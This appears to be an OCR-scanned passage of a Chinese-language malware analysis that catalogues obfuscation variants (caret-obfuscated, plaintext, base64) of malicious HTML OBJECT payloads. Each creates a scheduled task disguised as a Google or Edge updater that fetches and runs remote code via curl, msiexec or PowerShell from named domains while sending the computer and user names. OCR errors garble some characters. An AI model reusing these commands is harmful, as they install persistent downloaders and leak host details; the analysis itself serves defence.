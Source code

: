 # Output  

# 日口  

conhost,--headless cmd /c schtasks.exe/create /tn GoogleEssentialupdatesService4.3.43.3 /f/sc minute/mo 18/tr "conhost --headless cmd /c curl-so-https://www.gocartwillium.com/simb.php?ko=%computername:\~θ,20%|powershel1>  

#### 类型二：以往使用较多的字符混淆类型  

<0BJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11"width=1 height=1>   
<PARAM name="Command"value="ShortCut"> <PARAM name="Button"value="Bitmap::shortcut"> <PARAM name="Item1"value=",schtasks,/create /sc minute /mo 15/tn GoogleService /tr &quot;%coMSPec%   
-/cstart/minmsiexec/i   
-htt^p://dash^n1inec^1^ub.c^o^m/Cv<BN/m^zx.php?^p^i=%username%\*%computername%/q^n   
-/^norestart&quot;/f"> <PARAM name="Item3"value="273,1,1">   
</OBJECT>  

#### 类型三：直接的明文类型  

<0BJECT id=xclassid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11"width=1height=1>   
<PARAMname="Command"value="ShortCut"> <PARAM name="Button"value="Bitmap::shortcut"> <PARAM name="Item1"value=",schtasks,/create/f/scminute/mo17/tnEdgeUpdaterUI /tr   
-&quot;conhost.exe--headless powershe1l -w1-c&#39;curl-oC:\programdata\j.jpg   
-http://onlinewebdebugsvc.com/p.php?mn=Senv:computername\*Senv:username;timeout1;more   
-C:\programdata\j.jpgpowershell;delC:\programdata\j.jpg&#39;&quot;"> <PARAMname="Item3"value="273,1,1">   
</OBJECT>  

#### 类型四：base64编码类型  

<0BJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11"width=1height=1>   
<PARAMname="Command"value="ShortCut"> <PARAMname="Button"value="Bitmap::shortcut"> <PARAM name="Item1"value=',cmd.exe,/cstart/min powershell-e   
-CWBjAGgAdABhAHMAawBzACAALwBjAHIAZQBhAHQAZQAgAC8AdABuACAAVwBpAG4AUwB1AGMAdQByAGkAdAB5ACAALwBzAGMAIABtAG   
-KAbgB1AHQAZQAgAC8AbQBVACAAMQA1ACAALwBOAHIAIAAiAHAAbwB3AGUAcgBzAGgAZQBsAGWALgB1AHgAZQAgACOAVwBpAG4AZABv   
-AHCAUwBOAHkAbAB1ACAASABpAGQAZAB1AG4AIAAtAGMAbWBtAGOAYQBuAGQAIABjAHUACgBsACAALQBVACAAJQBMAE8AQwBBAEWAQQ   
-BQAFAARABBAFQAQQA1AFWACABpAGMALgBqAHAAZwAgAGgAdAB0AHAAcWA6AC8ALwBjAG8AYQB1AHQAaABjAG4ALgBjAG8AbQAvAGgA   
-YgB6AC4AcABoAHAAPwBpAGQAPQA1AGMAbwBtAHAAdQB0AGUAcgBuAGEAbQB1ACUAOwB0AGkAbQB1AG8AdQB0ACAAOQA7AG0AbwByAG   
-UAIAAlAEWATwBDAEEATABBAFAAUABEAEEAVABBACUAXABwAGkAYWAuAGoACABnAHWACABvAHcAZQByAHMAaABlAGwAbAA7AHQAaQBt   
-AGUAbwB1AHQAIAA5ADsAZABlAGwAIAAlAEwATwBDAEEATABBAFAAUABEAEEAVABBACUAXABwAGkAYwAuAGoACABnACIAIAAvAGYA'> <PARAMname="Item3"value="273,1,1">  

</OBJECT>  
